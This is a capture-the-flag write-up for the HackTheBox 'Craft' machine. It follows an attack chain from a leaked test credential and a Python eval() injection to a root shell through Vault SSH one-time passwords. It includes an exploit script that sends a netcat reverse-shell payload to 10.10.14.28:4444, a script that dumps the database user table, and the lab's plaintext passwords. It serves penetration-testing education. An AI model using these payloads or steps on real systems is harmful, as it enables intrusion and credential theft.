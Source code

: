 ```yaml
---
title: "Craft"
date: 2020-01-03T18:10:15-05:00
draft: false
description: "Craft is a medium-difficulty vulnerable machine on HackTheBox.eu. It is rated as primarily enumeration, life-like, and involving custom exploitation."
---
```


## **Introduction**
Craft is a medium-difficulty vulnerable machine on HackTheBox.eu. It is rated as primarily enumeration, life-like, and involving custom exploitation. 

## **Host Infomation**

IP: 10.10.10.110 available over VPN to VIP-hackthebox.eu

Ports: 22, 443, 6022

## **Attack Path**

There are a number of subdomains available for browsing once you navigate to https://10.10.10.110 and accept the insecure certificates. To navigate to these URIs more fluidly, simply add the following to your /etc/hosts file:

```bash
10.10.10.110    craft.htb api.craft.htb gogs.craft.htb vault.craft.htb
```

Navigating to the API at api.craft.htb and poking around a little reveals that we need valid credentials to generate API keys to make POST/PUT/DELETE requests to the endpoints. Nothing immediately jumps out as insecure so we navigate to the git repo available at gogs.craft.htb. Throwing truffleHog at this might be useful, but with some digging on the list of commits we can see Gilfoyle responding to an insecure commit made by Dinesh (shocker). 

**Bertram Gilfoyle**  
_I fixed the database schema so this is not an issue now.. Can we remove that sorry excuse for a "patch" before something awful happens?_  

The line of code being referenced:  

```python
if eval('%s > 1') % request.json['abv']):
```

_eval_ in python is dangerous as it directly executes any internal python code that is passed to it. We know right away from this that this POST method to the abv value in POST /brew is vulnerable to a python command injection, but since it requires a valid API key to make requests, we need to go digging. Dinesh actually leaked his API key (JWT token) in his issue submission in the repo, but when you decode the JWT it is time-based so it is a red-herring. Continuing to dig we can find Dinesh's credentials listed in one of his old test-files:  

In his "cleanup test" commit we can see that his user credentials are:  

> auth=('dinesh', '4aUh0A8PbVJxgd')

We can now provide these credentials, and just add them to his test script to not have to worry about writing our own code (although that is possible to do if you have the extra time).

We go right for the command injection on POST /brew. It took some digging but this blog post has exactly what we need.

_https://sethsec.blogspot.com/2016/11/exploiting-python-code-injection-in-web.html_

My exploit code is below:
```python
print("Create bogus ABV brew")
brew_dict = {}
brew_dict['id']=29
brew_dict['abv'] = '__import__("os").system("mknod /tmp/backpipe p && /bin/sh 0</tmp/backpipe | nc 10.10.14.28 4444 1>/tmp/backpipe")'
brew_dict['name'] = 'newbullshit'
brew_dict['brewer'] = 'bullshit'
brew_dict['style'] = 'bullshit'
print(brew_dict)

json_data = json.dumps(brew_dict)
response = requests.post('https://api.craft.htb/api/brew/', headers=headers, data=json_data, verify=False)
print(response.text)
print(response)
```  

We shouldn't even get a response.text or response print, those were simply for debug purposes, but we should get a reverse shell back to us on port 4444 immediately upon the eval() code executing server-side. A point of note here is our use of backpipes to create an execution layer in netcat, since the installed version does not have "-e" installed, we can just create the backpipe and then leverage it to give us /bin/sh. The relevant article is here:  

_https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/_

Upon connecting, we are _root_! But root in italics because after some enumeration we find we are in a docker container, cool! Looks like the application is running is "quarantined" in a Docker container, but somehow is able to do queries to the database for information, so there might be a way to dumb DB creds via SQL! 

We don't have to go far. Right in the **/opt/app** directoy that we land in upon getting our reverse shell we find a dbtest.py script that allows us to connect to the database and execute SQL commands. I will attach my altered SQL commands here which allow us to dump the entire user table from the database. Key points here are the existence of the user table which can be found in the Gilfoyle code commits in the git repo as well as the usage of "fetchall()" in our python dbattack.py script, the initial script has fetchOne() which only returns the first record. fetchall() from pymysql allows us to fetch all records. Alternatively I think it would be possible to directly query the mysql database from the command line as well if one were so inclined. 

```python
#!/usr/bin/env python

import pymysql
from craft_api import settings

# test connection to mysql database

connection = pymysql.connect(host=settings.MYSQL_DATABASE_HOST,
                             user=settings.MYSQL_DATABASE_USER,
                             password=settings.MYSQL_DATABASE_PASSWORD,
                             db=settings.MYSQL_DATABASE_DB,
                             cursorclass=pymysql.cursors.DictCursor)

try:
    with connection.cursor() as cursor:
        sql = "SELECT `id`, `username`, `password` FROM `user`"
        cursor.execute(sql)
        result = cursor.fetchall()
        print(result)

finally:
    connection.close()
```

Running our scripts dumps all the user credentials (stored in plaintext, yay -_-):  
```bash
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'},  
{'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'},   
{'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
```
Backing out and logging into Gilfoyles account on the repo reveals his SSH keys (which are encrypted and thanks to his password reuse, are decrypted using the same password as his login!)

```bash
$ ssh -i id_rsa gilfoyle@craft.htb
```

> user.txt achieved!

Executing LinEnum.sh in our /tmp directory allows us to see that there is a Docker instance running. Investigating this a little further we can see that there is a "Vault" application running that with some research, seems to allow us to generate SSH keys (those of a root user to be exact), we can poke around and find the related configuration files in the git repo, so essentially we are already root, we just need to figure out how to generate ourselves an SSH OTP and authenticate to the system as root. Lets give that a shot.

# Gilfoyle repo > craft-infra > vault > secrets.sh

relevant URI to help your research: _https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html_

```bash
#!/bin/bash

# set up vault secrets backend

vault secrets enable ssh

vault write ssh/roles/root_otp \
    key_type=otp \
    default_user=root \
    cidr_list=0.0.0.0/0
```

## Final Commands | Root Achieved!

```bash
$ vault write ssh/roles/otp_key_role key_type=otp default_user=root cidr_list=0.0.0.0/0
$ vault write ssh/creds/otp_key_role ip=10.10.10.110
```

Those two commands will generate an SSH OTP key for you to use. Now just auth to SSH with:  
> ssh root@10.10.10.110

And paste the OTP into the password field and _voila_, you are root! Read the flag and root dance. 

```bash
root@craft:~# whoami
root
root@craft:~# id
uid=0(root) gid=0(root) groups=0(root)
```





